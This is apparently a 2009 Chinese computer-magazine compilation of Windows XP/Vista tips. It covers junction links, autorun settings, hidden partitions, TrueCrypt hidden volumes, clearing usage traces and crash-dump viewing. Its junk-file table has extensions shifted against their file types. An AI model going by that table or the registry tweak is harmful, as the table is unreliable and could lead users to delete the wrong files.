-   ★如果你在自己的电脑上一直没有办法安装成功，先找一台可以顺利安装的电脑，装好后用Clonezilla（下载地址：http://www.rjfxB.com/html/34044.html）备份好，还原到自己的电脑上，通常成功率会大增。安装失败在于安装前的硬件检测不通过，用Clonezilla还原安装就可以跳过它。

似曾相识，简单使用

Just Do It：动手解决字体显示紊乱

(文/PD)

手术不动刀，化骨绵掌迁移大程序

系统使用久了以后，很多朋友都会发现自己C盘可用空间逐渐减少。很多大程序在C盘的安装，导致如此，常规的方法是使用PQ等对分区进行扩容，但是这种操作很不安全，那如何对C盘进行安全瘦身？做个手术，让大程序迁移出C盘。

移字诀——迁移应用程序到非系统分区

JUNCTION.EXE（下载地址：http://download.sysinternals.com/Files/Junction.zip）是一个可以在XP下使用的命令行符号链接（功能类似Win7/Vista自带的mklink.exe，相当于Linux下的ln），它的功能有点像Windows的快捷方式。比如，很多朋友默认都是将游戏安装在C盘，游戏体积都很大，多安装几个C盘空间就吃紧了，如果简单的移动游戏安装目录又会造成游戏无法运行，现在可以通过创建链接的方法无痛移动。以移动“跑跑卡丁车”游戏为例，默认安装在C:\Program Files\TianCity。

网络大补贴：

Vista/win7用户可以直接使用内置的mklink.exe创建链接http://bbs.pcbeta.com/thread-419389-1-1.html。

-   1. 第一步：下载程序后将JUNCTION.EXE解压到c:\windows\system32，进入C:\Program Files，把TianCity整个目录剪切到d:\。
-   2. 第二步：启动命令提示符输入下列命令创建符号链接：
    ```
    cd "C:\Program Files"
    回车
    junction TianCity d:\TianCity
    ```
-   3. 第三步：输入dir命令查看C:\Program Files目录结构，可以看到新增了一个标记为junction的TianCity目录。这个目录实际上是指向到d:\TianCity的一个硬链接，对于系统来说访问C:\Program Files\TianCity和d:\TianCity是一样的，也就是说上面我们的剪切操作就像是没有对C盘进行任何删减，但实际上已经将游戏目录移动到了d:\，为C盘腾出很多的空间，不过对原程序的运行却没有何的影响。同样的，我们可以使用上述的方法，将C盘很多文件移动到其他分区并建立链接来为C盘减肥。比如，可以将杀毒软件病毒库目录指向到其他分区，这样即使不断升级病毒库也不会给C盘造成任何负担。

改字诀——更改应用程序默认安装目录

上述方法虽然方便，不过JUNCTION只支持NTFS分区，而且这是事后补救措施。C盘最好的“防肥”方法当然是阻止应用程序安装到C盘。比如，MSN安装时无法为其自定义安装路径（只能安装到C），现在可以通过修改注册表的方法更改其安装路径到D：。

运行注册表编辑器，依次展开[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion]，然后将右侧窗格的ProgramFilesDir，将原数值更改为d:\Program Files。现在再启动MSN安装程序就会自动安装到D盘了。

Just Do It：删除垃圾文件

如果你想彻底给C盘减肥，还有一个重要的方法就是删除垃圾文件，可定期使用磁盘清理或者优化大师等来清理垃圾文件，具体操作大家可以参考以前文章介绍。最后列出常见垃圾文件，大家可以有选择进行删除（见表）。

（文/YMF）

| 文件种类 | 延伸名 |
| :--- | :--- |
| 系统补丁备份文件 | 位于C:\WINDOWS下，类似$NtUninstallKB945553$、$NtUninstallKB950582$ |
| 杀毒软件隔离区带毒文件 | 比如江民的kvback.vir |
| 磁盘扫描文件 | .found |
| 临时文件 | *.??~; *~*; *.tmp; ~*.* |
| 帮助的临时文件 | *.hlp |
| 异常的临时文件 | (*.ftg; *.gid) |
| 安装临时文件 | (*.; *.@@@) |
| 日志文件 | (*.; mscreate.dir) |
| 磁盘检查文件 | (*.log) |
| 临时备份文件 | (*.chk) |
| 旧备份文件 | (*.bak) |
| 丢失簇的恢复文件 | (*.old) |
| 微软产品备份文件 | (chklist.*; *.chk) |
| 下载软件说明文件 | (*.ms) |
| Word备份文件 | (*.diz) |
| Excel备份文件 | (*.wbk) |
| Corel Draw备份文件 | (*.xlk) |
| 新闻组临时缓存数据文件 | (*.cdr_) |

左手鼠标，给你这样的男人

最近流行一句广告语，来自于某服装品牌：“给你这样的男人。混不好，我就不回来了！”表达了对目标的执著追求和对自我的肯定。生活中我们有许多做回自我的机会，假如你是个左撇子，用上电脑之后就会被强制改为右手习惯，抹杀了天性。尽管鼠标按键可以更改为左手习惯，但即使切换了左右键，鼠标指针却依旧全部是向左指的。既然Windows不提供，那我们就自己做！

要想编辑鼠标指针，首先需要这个工具：ArtCursors（下载地址：http://work.newhua.com/cfan/200916/ac.rar），以Vista系统为例，步骤如下：

-   1. 第一步：打开目录C:\windows\cursors\，将aero_arrow.cur、aero_working.cur、aero_link.cur、aero_helpsel.cur四个文件复制到某一新建文件夹，并依次更名为 aero_arrow_left.cur、aero_working_left.cur……
-   2. 第二步：打开ArtCursors，它会默认弹出创建光标的对话框，此处点击“取消”。然后逐个编辑刚刚更名后的四个文件，以aero_arrow为例，打开aero_arrow_left，选择Effects（效果）→Flip（翻转）→Horizontally（水平），还要重新设置光标的Hot Spot（作用点），因为向左指的光标的作用点是左上角，需要将其改为右上角。选择Cursor（指针）→Hot Spot（焦点），指定为(32,0)即可。

小提示：

转换其他静态光标的方法均与此类似，但在处理多帧的光标（如aero_working_left.cur）时要注意，需要将光标的每一帧都进行水平翻转；而Hot Spot则只需设置一次。

-   3. 第三步：将修改好的光标文件保存，复制到步骤一的Windows光标文件夹内，最后在“控制面板→鼠标→指针→自定义”中将“正常选择”、“帮助选择”、“后台运行”和“链接选择”四项对应地设置为修改后的光标即可。

网络大补贴：

到哪里寻找漂亮、个性的鼠标指针呢？推荐这里：http://happy.enet.com.cn/php/list.php?cid=138。

（辽宁/陈炳傑）

不折腾不快乐，新驱动进驻Vista光盘

虽然Vista安装光盘原厂集成了大量的磁盘控制器驱动，但是Vista毕竟发布几年了，这段时间里，不少的南桥和磁盘控制器陆续发布。Vista发布已久，现有的驱动已老，而且品牌繁多，驱动不一，目前网上并没有好的驱动包合集，我们整理了一份包含九个品牌的最新驱动供您使用。虽然Vista采用PE方式安装，可以在正式安装系统之前，通过闪盘加载新的磁盘控制器驱动，但如果能够自己把需要的新驱动都集成到安装光盘里面，岂不更好？

准备工具

这个时候，我们不得不佩服盖茨大叔的高瞻远瞩，Vista早就为我们准备好了AIK工具。

（盖茨：一提Vista，我就伤心……）

-   1. Windows AIK (SP1)，下载地址：http://tinyurl.com/5zusdg。
-   2. Vista安装光盘。
-   3. 磁盘控制器驱动包，下载地址：http://work.newhua.com/cfan/200917/Driver.rar；boot.wim文件，下载地址：http://work.newhua.com/cfan/200917/boot.rar。

安装及折腾

把下载下来的Microsoft Windows AIK用虚拟光驱加载或者刻录成DVD光盘，安装Microsoft Windows AIK，建议安装Microsoft Windows AIK之前，先将.net Framework（下载地址：http://www.onlinedown.net/soft/38669.htm）和MSXML 6.0安装程序安装上。

把磁盘控制器驱动包解压到一个文件夹如Driver，把Driver文件夹和下载到的boot.wim文件一起复制到C:\Program Files\Windows AIK\Tools\PETools下面，再在C盘根目录下建立一个BOOT的文件夹。

三条命令，搞定集成

打开“开始→程序→Microsoft Windows AIK→Windows PE 工具命令提示”，这时会出现命令行窗口（大家不要害怕，命令都很简单）：

-   1. 第一条：将所有的INF文件生成文件列表
    ```
    DIR *.INF /S /B /O:N>D.TXT
    ```
    双击打开DRV.TXT文件，使用记事本的“查找→替换”功能，查找“.inf”，替换为“.inf C:\BOOT”；继续查找“C:\Program Files\Windows AIK\Tools\PETools\”替换为“peimg.exe /inf=”。（不包括引号）
-   2. 第二条：把boot.wim释放到c:\boot下
    ```
    imagex /apply boot.wim 1 c:\boot
    ```
    这时候把刚才的D.txt重命名为D.bat，然后双击运行D.bat。根据集成驱动的多寡，要等10分钟左右的时间。
-   3. 第三条：重新制作安装文件：
    ```
    imagex /boot /compress max /capture c:\boot c:\boot.wim "VISTA SETUP"
    ```
    至此，就完成了Vista安装程序BOOT.WIM的磁盘驱动集成工作。用这个BOOT.WIM替换掉原安装光盘的BOOTWIN文件，重新刻盘之后，就可以用集成驱动之后的Vista安装光盘安装系统了。

小提示：

最终结果，D.TXT里面都是类似这样形式的内容：peimg.exe /inf=Driver\VIA\VIMINIIIDE.inf C:\BOOT。其中peimg.exe /inf就是集成驱动程序的命令。

（北京/握握你的手）子曰：好的自动播放，可以留一点儿

由于“自动播放”成了病毒传播经常利用的手段，所以自身也经常被禁用。不过，我个人觉得：少数好的“自动播放”还是应该保留的，比如想看看《电脑爱好者》合订本配套光盘，将光盘放入光驱后，弹出自动播放岂不是很惬意？这时候手动点击“打开”就有点儿费事儿了。（注：开头部分的子曰内容纯属瞎编，如有雷同，不胜荣幸）

学而时习之，不亦乐乎！

在建议牛技之前，我们先来顺着孔子的教诲，温习一下以前的禁用自动播放技巧吧！那时期，采用的是“宁可错杀一千”的策略，就是这样：组策略大法。按Win+R组合键，调出“运行”对话框，键入gpedit.msc，确定后打开“组策略”，在左窗格的“本地计算机策略”下，展开“计算机配置→管理模板→系统”，在右窗格中找到“关闭自动播放”，双击后，在“设置”选中“已启用”复选钮，然后在“关闭自动播放”框中单击“所有驱动器”，确定。

小提示：

还有一招很常用：关闭服务法。右击“我的电脑”选“管理”，在打开的“计算机管理→服务和应用程序→服务”，双击Shell Hardware Detection，在“状态”中点“停止”，将“启动类型”改为“已禁用”或“手动”就可以了。

尽善矣，又尽美也。

大家都看出来了，老方法太过于粗暴，除了全部禁用就是全部关闭，没有回旋余地，接下来，就是建议牛技的时刻……

小知识：0和1的故事

在生活中，我们用对号和叉号表示对与错，但在电子计算机的世界里，由于广泛应用二进制计数法，所以采用0和1两个数字，来分别表示是和否。你完全可以将0和1看作是两个代号，而不是数字。

双击此DWORD值，数值名称NoDriveTypeAutoRun简洁明了，意思是禁用自动播放。默认数值为255是什么意思呢？

第二步：将其转换成二进制后，就能看出对不同驱动器的自动播放限制！

| 设备名称          | 第1位含义 | 设备名称            | 能否运行 |
| :---------------- | :-------- | :------------------ | :------- |
| DRIVE_UNKNOWN     | 0         | 不能识别的类型设备  | 1不能    |
| DRIVE_NO_ROOT_DIR | 1         | 没有根目录的驱动器  | 0能      |
| DRIVE_REMOVABLE   | 2         | 可移动驱动器        | 0能      |
| DRIVE_FIXED       | 3         | 固定的驱动器        | 1不能    |
| DRIVE_REMOTE      | 4         | 网络驱动器          | 0能      |
| DRIVE_CDROM       | 5         | 光盘                | 0能      |
| DRIVE_RAMDISK     | 6         | RAM磁盘             | 0能      |
| 保留              | 7         | 保留                | 1不能    |

假如要禁用闪存自动运行，可以把第二位的值改为1，建议把第三位也设为1。接着，反其道而行之，将修改好的八位数值转换成十进制或十六进制数值，填到前文所说的“数值数据”中。按F5键刷新，至此，好的自动播放打造完成。

暑期最后献礼，不传秘技三招！

秘技一：磁盘操作法

打开“我的电脑”，右击需要关闭自动播放功能的盘符，选择“属性→自动播放”，可针对“音乐文件”、“图片”、“视频文件”、“混合内容”和“音乐CD”设置不同的操作方式，选用“不执行操作”即可禁用自动运行功能。

秘技二：软件法

使用微软出品的TweakUI软件，可控制所有版本的Windows的任意盘符是否可以自动播放。

秘技三：SHIFT按键法

插入可移动驱动器时，按住SHIFT键，可移动驱动器就不会自动播放啦。

距离产生美，让副系统拯救主系统

很多朋友都安装了XP+Vista/Win7双系统，将XP作为主系统，安装在第一分区，副系统安装在其他分区。一旦XP启动文件受损，就导致两个系统都无法进入。此时就得借助PE光盘等系统来修复启动故障。本文实现的目的，是让两个系统实现相对独立。假设XP注册表遭遇严重故障无法进入，只要可以进入Vista/Win7系统，运行Ghost32即可将制作好的XP.gho恢复到第二分区，在Windows下操作，自然比在PE或DOS下的顺手。

为什么要产生距离？给个理由先！

理由1：可以快速备份/恢复系统引导，小分区只有系统引导文件，一旦引导受损，备份和恢复都很快。理由2：两个系统相对独立，可以方便在任意一个系统中对其他系统进行诸如杀毒、重装、格式化等操作。常规安装方法由于系统文件放在第一分区，是无法在Vista/Win7下对XP所在分区进行格式化、删除系统引导文件等操作的。理由3：管理方便，引导分区大小只有100MB，即使安装多个系统，也不用为系统分区容量不够发愁。

自己动手，把启动文件归集到第一分区

本文的目标是将双系统引导文件全部整合到一个分区，由于是对系统引导文件进行操作，首先要准备好老毛桃PE系统。第一步：准备一张老毛桃PE光盘，引导进入PE后运行ghost32.exe，使用其“分区到分区”功能，将当前XP系统移动到第二分区（假设为d：），然后运行分区工具PQ，将第一分区（主分区）的容量调整为200MB左右，剩余空间创建为逻辑分区并和原来D盘合并。

小提示：

分区到分区操作会抹除第二分区的数据，操作之前要备份好目标分区的数据，为避免数据丢失，可以在PE中运行资源管理器，将第一分区所有数据剪切到第二分区。对于品牌机用户，原来C盘容量就比较大，也可以把XP所有文件剪切到调整后的分区中。

老毛桃PE安装到主分区，将下载到的老毛桃PE解压运行其中的setup/setup.exe，按提示选择“1普通安装/启动（硬盘安装）”，将老毛桃PE安装到第一主分区中。

经过上述操作后，XP+Vista/Win7双系统运行就相对独立了，这种简单文件解构更方便系统维护。

小编有话说：教你一绝招

在上述操作中，已经将双系统引导文件归集在一个小分区，即使加上PE容量也不超过200MB，因此只要备份好这个分区，以后双系统的恢复引导操作就简单多了。重启后进入PE系统备份第一分区，以后遇到引导故障时，运行Ghost即可快速恢复，由于备份文件只有几十兆，几秒即可修复启动故障。

曾哥，别让我抓狂！分区，拿什么拯救你的隐藏？

虽然我们身边不关注湖南卫视快乐女声的人，要远远多于关注的人，但最近一句“曾哥纯爷们！铁血真汉子！”在网上流行开来，某快女的综合素质很低却挤进了十强，加之长相很Man，便继“春哥”之后得到“曾哥”称号，据传每天有数人致电，要求评委公正，淘汰曾哥。身为快女粉丝的阿译就是其中之一，他最近几近抓狂，不光是曾哥带来的烦恼，电脑的隐藏分区也为他带来了很多烦恼。这天，他打完了湖南卫视的电话，对着客服发泄了一通之后，又拨了010-68130909接通了CFan的电话。将此次阿译和某小编长达两个小时的通话整理后，竟然形成了一篇优质美文。

题外话：大话选秀商业手法

曾哥能够进入快女10强，被腾讯网78.56%的网民认为“肯定有内幕”。过去的三大绝招：麻辣评委、痛哭镜头和短信投票都被广电总局叫停，今年新推出的打造争议选手的路子，恰好为湖南卫视带来了无尽的人气。

隐藏分区的一亩三分地

1. 细数种类

隐藏分区类型主要有两种，一种是基于HPA技术创建分区，主要在联想、同方等品牌机上出现。创建需要借助专门HPA工具软件，即使进入BIOS设置也无法看到被隐藏的容量。很多品牌电脑通过它来存放系统备份和一些修复工具。对于HPA格式分区，一般要借助官方提供的工具才能访问。

另一种是PQ等磁盘管理软件创建的分区，它针对Windows隐藏，只是通过更改分区的标识来隐藏自身，通过系统自带的磁盘管理组件可以看到该分区的存在。运行PQ后选中需要隐藏的分区，右击选择“高级→隐藏分区”即可。

2. 怎么判断

HPA分区的检测可以通过DM这个软件检测，下载地址http://www.onlinedown.net/soft/13340.htm，运行DM后，依次选择“(A)dvanced Options (高级选项)” → “(M)aintenance Options (性能选项)” → “Display Drive (Information)”。如果DM检测的容量比BIOS检测到的更大，则表明存在HPA隐藏分区。

PQ创建隐藏分区，只要运行磁盘管理组件即可看到是否有隐藏分区。

小知识：说说HPA

HPA的全称是Host Protected Area，翻译为“主机保护区域”，通俗理解，是在硬盘的任意位置设置读取硬盘的最大扇区号，从而把重要的数据隐藏。

去留随意，隐藏分区删除与保留

隐藏分区保存的数据由于系统无法访问，因此其中的数据非常安全，如果你喜欢可以用它来作为重要数据的隐藏仓库。不过隐藏分区也有弊端，比如很多品牌机采用的HPA分区大多在第一分区，并且会导致磁盘软件检测容量失真。

1.  还我容量，取消隐藏分区

卸载之前，务必做好数据备份操作！

-   A. PQ隐藏分区。可使用系统自带磁盘管理组件删除隐藏分区。单击“开始→运行”输入compmgmt.msc启动计算机管理组件，依次展开左侧窗格“存储→磁盘管理”，右击隐藏分区选择“删除逻辑驱动器”（或“删除磁盘分区”），按提示创建一个新的分区即可。
-   B. 删除品牌机隐藏分区。以联想、惠普为例介绍。

对于联想机型，先下载工具包并解压（下载地址：http://work.newhua.com/cfan/200916/hpatool.rar）。如果是2005年以前的机型，使用hddfunc.exe，制作一个DOS启动闪盘，然后将上述文件复制到闪盘根目录下，启动到DOS后输入“X:\hddfunc.exe /d”（X是为闪盘盘符），重启后运行磁盘管理，即可看到一个多出的未划分空间区域，按提示创建新分区即可；2005年以后的机型，则使用HPATOOL.EXE，方法同上，启动到DOS后输入“HPATOOL.EXE /oir”即可；对于最新的机型（2008后，联想家悦/天骄系列机型），它还提供Windows下的卸载工具。单击“开始→控制面板→添加或删除程序”，在“添加或删除程序”窗口中选中“一键恢复”，点击“更改/删除”按钮，运行“一键恢复安装维护程序”。选中“删除”一项即可，隐藏分区所占用的磁盘空间在卸载后会自动添加到硬盘的最后一个分区。

对于惠普机型，系统自带了自动卸载组件。单击“开始→所有程序→HP Backup & Recovery→HP Backup and Recovery Manager”，打开程序后单击“高级选项→删除恢复分区”，提示确认删除时选择“是”，重启后即可删除隐藏分区。

方便大家了解其他品牌隐藏分区的一览表：

| 品牌 | 预装系统 | 隐藏分区位置 | 大小（大约数值） |
| :--- | :------- | :----------- | :--------------- |
| 联想 | XP       | 第一分区     | 5GB              |
|      | VISTA    | 最后一个分区 | 20GB             |
| 惠普 | XP, VISTA| 最后一个分区 | XP7GB, Vista25GB |
| 华硕 | XP       | 第一分区     | 10GB             |
|      | vista    |              | 30GB             |
| 同方 | XP       | 最后一个分区 | 10GB             |
|      | vista    | 最后一个分区 | 20GB             |
| 神舟 | XP       | 最后一个分区 | 5GB              |
|      | vista    | 最后一个分区 | 20GB             |
| 七喜 | XP       | 第一分区     | 7GB              |
|      | vista    | 最后一个分区 | 25GB             |

2.  就要隐藏，保护皆在隐藏分区

预装Vista机型大多使用的是联想一键还原6.0（可在XP下和Vista使用），如果把Vista改成了XP，只要在XP下重装一键还原即可。其他预装Vista系统存在隐藏分区的电脑，方法相似。

-   第一步：准备XP安装光盘启动系统，在选择将系统安装到哪个分区界面时，依次选中分区1和分区2将其删除并重新划分分区，保留分区3（标识为EISA工具，这就是联想的隐藏分区）。
-   第二步：按提示将XP安装到第一分区，重启后在出现联想LOGO画面的时候，按住F2键进入到“联想拯救系统”，在操作界面单击“驱动与软件安装”。按屏幕提示操作完成安装，重启后进入XP，单击“开始→所有程序→联想应用程序→驱动与软件安装”，接着在打开的窗口按提示选择“随机软件安装”，安装一键还原应用程序。
-   第三步：安装完成以后，点击任务托盘的蓝色盾牌图标，打开联想的一键恢复，按提示开始创建基础备份。成功完成初始备份后，以后就可以在开机时按住F2，随时进行一键还原了，和原来没什么不同。

小提示：

联想随机附送光盘大多也包含上述程序，只要在XP插入光盘，按提示选择安装随机软件即可。

Just Do It: 其他品牌机的调整

除联想外，预装Vista品牌机如DELL、HP大多使用PE（也就是WINRE）作为一键还原操作环境。比如HP用户，开机按住F11进入恢复界面。进入PE界面后按ALT+D启动命令提示符，使用diskpart命令删除第一分区并调整容量，接着按自己需要调整好分区容量。最后返回恢复界面，依次选择“高级选项→系统恢复→恢复系统，但不备份文件”进行系统恢复即可。

隐藏分区的另类绝活

由于隐藏分区无法被系统识别，因此我们可以充分发挥隐藏分区的作用，介绍几个隐藏分区的另类绝活吧！

绝活1：拯救硬盘坏道

如果硬盘产生无法修复的物理坏道，每当操作系统访问这些区域的时候就很容易当机。由于HPA分区连BIOS都无法检测到，用它来隐藏坏道自然是最好的方法。不过它只能隐藏硬盘后部区域的坏道。假如现在有一块硬盘经扫描后，最后10%基本上是坏道。我们将最后区域创建为HPA分区即可。首先使用PQ将该硬盘包含坏道区域创建为一个分区（一定要是最后一个分区，容量比坏道区域略大一些），接着使用“天风一键恢复”组件（下载地址：http://bbs.wuyou.com/viewthread.php?tid=92506&extra=&highlight=&page=1）；下载后直接运行setup.exe安装，重启后会自动将最后一个分区创建为HPA分区。这样这块硬盘就不会在显示坏道区域了。

绝活2：保卫重要文件

我们可以将一些重要文件存放到隐藏分区，这样其他人就无法访问，因此用它是用来存放重要文件的好地方。不过，由于不易访问，这里存放的最好是平时不经常打开的文件，如档案资料、重要数据备份等。为了方便自己使用，建议使用PQ制作隐藏分区。准备一个大小合适的分区，然后将重要文件全部复制到此处存放。接着运行PQ设置隐藏分区。如果以后自己要查看隐藏分区的文件。只要取消隐藏即可。

大腕儿待遇，大文件从此爱上闪盘

给闪盘请个秘书

目前，容量大于8GB的闪盘比比皆是，可当我们向其中拷贝大于4GB的文件时却发现出错：闪盘的文件系统为FAT32，NTFS的最大优势在于日志的存在，对于一些灾难性的操作里面都有记录。快给闪盘请来这个高级秘书！在XP下得经过一番简单设置。

右击“我的电脑”，选择“属性→硬件→设备管理器”。接着，展开“磁盘驱动器”，找到其下的闪盘，双击之。然后，在“策略”下选择“为提高性能而优化”，确定后，闪盘即可格式化为NTFS文件系统了。

再聘来保镖

废了好大的力气才下载好，我们不希望这些大文件被轻易删除，起码系统自带的删除操作不能实现，那就创建一个文件夹，让该文件夹及其下的所有子文件夹、文件等都不能被删除，但却可向其中任意写入、修改任何文件。

创建NODEL文件夹，创建后右击它，选择“属性→安全”，可观察到对该文件夹拥有权限的用户为Everyone，且具有完全控制权。接着，单击“高级→权限”，清除“从父项继承……的权限项目”，然后单击“复制”。

单击“编辑”，将“删除”、“删除子文件夹及文件”的权限设置为“拒绝”即可。

小提示：

在此，可进行的权限设置还很多，比如：设置为只读防修改等。另外，在Win XP下，请在打开闪盘后，单击“工具→文件夹选项”，再在打开对话框的“查看”选项卡下清除对“使用简单文件共享”的钩选，否则，右击文件夹并选择“属性”后无法显示出“安全”标签。

偷袭影音图，保住隐私才快乐

这年头，想看点电影不容易啊，倒不是因为片源难找，担心的是被人发现，老板见了被扣奖金，女友见了被骂死不正经；有时候自己臭美了玩个自拍，留住“青春”的尾巴，照片或视频存上了又怕被人看见。网友说得好：“青春就像卫生纸，看起来一大卷，用着用着就没了”……

面对大众的“偷窥心理”

不管是大电影，还是小电影，以下两种情况你可能都会遭遇，应如何应对呢？

◉遭遇1：正在看，冷不防被路人甲偷窥、被老板发现……

要解决这一问题，方法很多，比如：使用播放软件本身自带的老板键、使用工具软件一键清除正在运行的程序、使用多桌面软件切换……但这些方法都有一定的局限性，比如：不是所有播放程序都有老板键，工具软件大都为山寨版，比如，可以让所有窗口最小化的TrayEverything，只要运行过一次，就会扎根电脑。我们推荐一种万能方法：一键结束进程，就拿最“欢迎”的暴风影音举例吧！

#### 第一步：找到暴风长老的立足之地。

按Ctrl+Alt+Del组合键调出任务管理器，再单击“进程”，最大化任务管理器，按Alt+Print对任务管理窗口进行截图，在“开始菜单→附件”中打开画图程序，按Ctrl+V，截图就会自动粘贴到图画程序中。保存，打开暴风影音，再次将任务管理器的截图粘贴到图画程序。比较两次截图会发现，开启暴风影音后多出了三个进程：Stormtray.exe、Stlline.exe、Storm.exe。

#### 第二步：分析依存关系。

三个进程都是干什么用的呢？Stormtray.exe管理托盘图标；Stlline.exe主管暴风盒子；Storm.exe是播放窗口。分别右击这三个进程，选择“结束进程树”，观察另两进程是否也会结束，得出的结论是Storm.exe能达到要求，即它是主进程。

#### 第三步：推一斩三，一键结束。

在一个比较隐蔽的位置，比如C:\windows\system32文件夹的空白处右击，选择“新建→快捷方式”。接着，在弹出对话框的“请键入项目的位置”后输入“taskkill /f /t /im storm.exe”，再一路点击“下一步”，直到结束。

完成后，可在C:\windows\system32文件夹观察到名为taskkill的快捷方式。然后，右击该快捷方式选择“属性→快捷方式”，将鼠标移到“快捷键”后单击一下，再按一下键上的字母键比如B，可观察到快捷键为Ctrl+Alt+B。

##### 小知识：

命令taskkill的作用是结束进程。参数/f表示强制结束，/t表示终止指定的进程和任何由此启动的子进程，相当于结束进程树。/im后跟要结束的进程名。taskkill的作用比较大，可实现程序的联动。

今后，按Ctrl+Alt+B可全部结束暴风影音进程，包括播放窗口、盒子、托盘图标等。

◉遭遇2：看过电影后，担心其他用户知道你看了什么

打开某媒体文件后，该文件一般会记录到两个位置：在开始菜单（经典样式）的“文档”之下，在暴风影音的播放文件列表中。下面分别设置以达到不显示之目的。

##### 小提示：

如果在组策略的管理模板下找不到“任务栏和开始菜单”，请自行添加。方法是：右击“管理模板”，选择“添加/删除模板→添加”，再选择system.adm就行了。

#### 1.别让最近文档卖了你

在“开始菜单→运行”里输入Gpedit.msc并按回车键以打开组策略编辑器，依次展开“本地计算机策略→用户配置→管理模板→任务栏和「开始」菜单”。

接着，在右侧找到“不要保留最近打开文档的记录”和“退出时清除最近打开的文档的记录”，分别双击之，选择“已启用”。

这样设置后，开始菜单的“文档”下就不会出现记录了。这一设置也会影响到其他文件。

#### 2.让暴风长老忘记他播过什么

打开暴风影音，在播放界面上右击，选择“高级选项”。在弹出对话框的“播放列表”下勾选“打开新文件时清空原有列表”“播放列表”“最近播放”“上次打开的URL”即可。

##### 小提示：其他容易暴露你隐私的位置

除了影音播放的痕迹外，最常见的莫过于上网痕迹了，去除方法不必口罗嗦，各种常见容易暴露隐私的痕迹，去除的终极方法是使用360安全卫士的“常用→清理使用痕迹”即可一扫而光，右面的小列表或许对你有帮助：

| 上网痕迹         | C:\Documents and Settings\user\Local Settings\Temporary Internet Files：浏览器地址栏 | 360安全卫士“清理使用痕迹” |
| :--------------- | :----------------------------------------------------------- | :----------------------- |
| 搜索痕迹         | 浏览器、下载软件（电驴等）搜索栏                             | 在下拉列表选中用Delete键删除 |
| Outlook邮件痕迹  | Temporary Internet Files\Content.IE5\ALEZ0DEV下             | 360安全卫士“清理使用痕迹” |
| 下载痕迹         | “已下载”、“垃圾箱”列表                                      | 清空列表、下载目录       |
| 压缩痕迹         | 压缩时可供选择的路径                                         | 注册表[HKEY_CURRENT_USER\Software\WinRAR]，删除ArcHistory、DialogEditHistory |

偷窥好对付，窃取更难防？

下载到硬盘中的媒体文件，如果以普通方式存放，搜索功能将是它的天敌。怎样才能让别人找不出来呢？在此，笔者将向大家展示True Crypt，来对媒体宝贝进行双重的带欺骗性质的加密。

软件小档案：TrueCrypt

软件大小：3.02MB 软件性质：免费
运行环境：Windows 2000/XP/Vista/7
下载地址：http://download.pcpop.com/Down/35556.html

随我创建加密重地！

Step1：将硬盘的一个分区全部清空，用于加密并保存媒体文件。运行True Crypt，单击“创建加密卷”，加密向导即可自动运行，依次选择“加密非系统分区/设备→隐藏True Crypt加密卷→常规模式”，直到“加密卷位置”一步出现。在此单击“选择设备”，再选择要加密的分区即可（本例为L盘）。

要注意的是分区的表示形式，形如\Device\Hard disk x\Partition y，其中的x表示第几块硬盘，第一块为0，后面的为1，2……y表示硬盘的第几个分区。比如：\Device\Hard disk 1\Partition 1，表示第2块硬盘的第1个分区。本例选择的就是它，盘符是L。

Step2：创建外层加密卷。接着前面单击“下一步”，进入向导的“外层加密卷”一步，一路按默认选项前进。向导会提示输入外层加密卷的密码。

Step3：创建隐藏加密卷。向导会提示指定隐藏加密卷的大小，一般设置为被外层加密的分区容量的一半。最后输入密码即可。注意：外层加密卷的密码，还有隐藏加密卷的密码，两个密码最好不要相同。

小提示：
将隐藏加密卷称为内层加密卷也许更容易理解，外层加密针对的是整个分区，而内层加密针对的是分区中的一部分空间，分别用各自的密码来加载。

如此玄机，如何使用？

在True Crypt主界面上单击“选择设备”，再选择已加密的分区。此时可以在“加密卷”下观察到已导入进来的分区。接着，选择一个未被占用的分区如Z盘，单击“加载”。这时提示输入密码。面临两种选择：如果输入外层密码，加载的将是整个被加密的分区；如果输入内层密码，则加载分区中的加密文件，也就是隐藏加密卷。加载后，可在“我的电脑”下观察到Z盘，可像操作普通的分区一样向其中拷贝媒体文件。

当你自己完成操作Z盘中的媒体文件后，再重新加密；返回到True Crypt，选中Z盘，再单击“卸载”。Z盘已经在“我的电脑”中消失，别人甭想观察到其中的媒体文件。

带来的两个忧虑……

忧虑之一：加密后，如果不加载，仍然可在“我的电脑”下观察到被加密的分区。

忧虑之二：不管以哪种方式加载，都能在“我的电脑”下观察到原来的分区而且可观察到一个Z分区。

妙计！瞒天过海！

首先，按前面的方法加载内层卷，并向其他拷贝媒体文件（计划隐藏的内容）。然后卸载。右击“我的电脑”选“管理→磁盘管理器”，找到被加密过的分区（L盘），右击选择“更改驱动器名和路径→删除”。L盘在“我的电脑”下消失。这一分区的盘符L，接下来要分配给外层加密卷。

然后，就是见证欺骗的时刻！运行True Crypt，将被加密的分区以外层加密卷的形式加载。注意，选择盘符时一定要选择被加密的分区。

这样，其他人在“我的电脑”下还是可观察到L盘，但岂知此盘非彼盘了，它仅是被加密后的L盘以外层卷的形式载入的。任何人，都可以向其中拷贝文件，甚至进行格式化，有很强的欺骗性。唯一破绽在于分区的容量没原来的来那么大……

你自己想看电影时怎么办？答：先卸载外层加密卷，再加载内层加密卷。

(四川/学昌)

“月光宝盒”——带我回到蓝屏那一刻

网络大补贴：

蓝屏代码细细查，http://jtty.com/ah27。
用Windbg分析Minidump实例，http://jtty.com/adfq。

最近笔者入手了一台笔记本，原本是件高兴的事儿，可是没用多久问题就出现了，机器一周总要蓝屏几次，更要命的是每次蓝屏都是一闪而过，还没等看清它的真面目就自动重启了，就这样被不明不白的“蓝屏们”折磨着。终于有一天，我觅得了绝世的“月光宝盒”：BlueScreenView（下载地址：http://work.newhua.com/cfan/200917/blue.rar），有了它的帮助，该死的蓝屏，看你们有哪般能耐，让我回到蓝屏那一刻去看个究竟！

运行BlueScreenView.exe，软件会自动搜索列出最近系统的死机记录。双击一条记录，就可以显示出此次蓝屏的相关信息，并且在“导致崩溃的驱动程序”这一栏中，显示出导致此次蓝屏的程序名及相应的错误代码。搜索一下就可以找到相关的解决方案。如果想要回放蓝屏时的画面，那么只要单击“选项→显示下面板→显示为XP样式的系统崩溃蓝屏”就可以了。同时，软件还可以为我们导出查询结果，便于进一步的分析。有了它，莫名其妙的蓝屏不再有！

